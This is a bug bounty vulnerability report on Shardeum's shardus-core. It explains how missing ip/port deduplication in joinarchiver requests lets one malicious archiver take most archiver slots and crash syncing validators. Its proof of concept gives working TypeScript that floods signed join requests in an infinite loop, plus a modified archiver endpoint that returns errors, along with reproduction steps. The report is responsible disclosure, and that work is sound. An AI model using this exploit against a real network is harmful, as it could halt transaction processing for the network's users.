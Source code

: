 
# Lack of deduplication in joinarchiver requests leads to DoS attack on syncing node by malicious archiver

Submitted on Tue Jul 23 2024 19:42:01 GMT-0400 (Atlantic Standard Time) by @GuplerSaxanoid for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33576

Report type: Blockchain/DLT

Report severity: High

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
An adversary is able to register a single archiver node multiple times under different public keys due to lack of duplication checks against ip/port pairs in `joinarchiver` request validations. This allows the attacker to exhaust the maximum limit enforced on number of archivers that can join a shard, with the malicious archiver occupying majority of indices in archivers list. The malicious archiver is able to bring down syncing validator nodes with a fatal error.

## Vulnerability Details
During the request validation process in `joinarchiver` route, the program attempts to detect duplicate archivers by equating the public key in the request to the public keys that already exist. However, there is no attempt to detect duplicates based on ip/port values. This allows an attacker to register a single archiver node multiple times under different public keys to an extent that they exhaust the maximum limit on number of archivers that can join a shard.

There are several occasions in the program where a random archiver is chosen to access the list of active node in the network or the current cycle info:
1. When a standby node attempts to join the active set (https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Self.ts#L228)
2. When a node attempts to sync with the existing active nodes (https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Self.ts#L190)
3. When a standby node makes a standby-refresh (https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Join/v2/standbyRefresh.ts#L16)

When a node attempts to sync with the active set, it makes a call to '/cycleinfo/:count' endpoint of a randomly chosen archiver. If the archiver returns an error response, the validator node shuts down with a fatal error.

A malicious archiver can be programed to always returns an erroneous response through cycleinfo calls. But, since archiver is selected randomly, the probability that the malicious archiver is selected should outweigh the probability that an honest archiver is selected. 

In a network with 10 archiver nodes and 128 nodes-per-shard, 64 archivers can join the shard. Subtracting the 10 archiver nodes, the malicious archiver can present itself under 54 different public keys on each shard. The probability that the malicious archiver will be selected by syncing validator is approximately 0.84. Thus, syncing nodes are under a high probability of attack from the malicious validator.

## Impact Details
Since archiver nodes are expected to present themselves on every shard to subscribe to all of the state changes, the attack is imminent on every shard. All of the validator nodes in a shard will go through the syncing phase, where they are vulnerable to attack from the malicious archiver with a high probability. Hence, this exploit will cause a total network shutdown.


        
## Proof of concept
## Proof of Concept
1. Register the following external POST endpoint in validator:
```
shardus.registerExternalPost('archiver-join-hijack', externalApiMiddleware, async (req, res) => {
    while(true) { 
      const keypair = crypto.generateKeypair();
      const curveKey = crypto.convertPkToCurve(keypair.publicKey);

      const payload: ArchiversTypes.Request = crypto.signObj({
        nodeInfo: {
          curvePk: curveKey,
          ip: "127.0.0.1",
          port: 4000,
          publicKey: keypair.publicKey
        },
        appData: {
          version: AccountsStorage.cachedNetworkAccount.current.archiver.activeVersion
        },
        requestType: ArchiversTypes.RequestTypes.JOIN,
        requestTimestamp: (CycleChain.newest.start + CycleChain.newest.duration)*1000

      },keypair.secretKey, keypair.publicKey) as ArchiversTypes.Request;

      await Comms.sendGossip(
        'joinarchiver',
        payload,
        null,
        null,
        nodeListFromStates([
          P2P.P2PTypes.NodeStatus.ACTIVE,
          P2P.P2PTypes.NodeStatus.READY,
          P2P.P2PTypes.NodeStatus.SYNCING,
       ]),
       true
      )
    }

    return res.json("")
  })
```
PATCH file: https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-validator-node-patch

NOTE: The above endpoint makes a call through gossip route instead of the
external `joinarchiver` endpoint. This is done for ease of implementation in generating new public keys and signing the payload. However, the gossip route goes through the same deduplication process as the external endpoint, and both of them are equally vulnerable. This is to say that, a malicious validator is not required to perform this attack, the payloads can be signed by an external user/archiver and sent to an active node.

2. Alter `cycleinfo/:count` endpoint in @shardus/archiver module to the following to enact malicious archiver after 10 cycles:

```
server.get('/cycleinfo/:count', async (_request: CycleInfoCountRequest, reply) => {
    if(Cycles.getCurrentCycleCounter() > 10) {
      reply.send({ success: false, error: `Invalid count` })
      return
    }
    const err = Utils.validateTypes(_request.params, { count: 's' })
    if (err) {
      reply.send({ success: false, error: err })
      return
    }
    let count: number = parseInt(_request.params.count)
    if (count <= 0 || Number.isNaN(count)) {
      reply.send({ success: false, error: `Invalid count` })
      return
    }
    if (count > MAX_CYCLES_PER_REQUEST) count = MAX_CYCLES_PER_REQUEST
    const res = await Cycles.getLatestCycleRecords(count)
    reply.send(res)
  })
``` 
PATCH file: https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-archiver-node-patch

IMPORTANT: Make sure to link the modified @shardus/archiver module to node_modules in shardeum using `npm link`

3. spin up a local network in debug mode
4. wait for a few nodes to go active
5. Make a call to 'archiver-join-hijack' endpoint in an active validator node, the program will enter an infinite loop. Wait until you see the following warning logs in active nodes:
```
[2024-07-23T18:54:36.489] [WARN] p2p - Archiver: addJoinRequest: This archiver cannot join as max archivers limit has been reached
[2024-07-23T18:54:36.489] [WARN] p2p - Archiver: Archiver join request not accepted.
```
6. SIGKILL the previous call. Make a call to `archivers` endpoint to notice that archivers list contains multiple archivers pointing to same ip/port
7. Let the network run for a few cycles and observe that the syncing nodes goes offline with a fatal error.

Here are exit summaries from two random validator nodes for evidence:
https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-exit-summary-2-json
https://gist.github.com/guplersaxanoid/153c6e2bed13d474ff3d1a07c7457457#file-exit-summary-1-json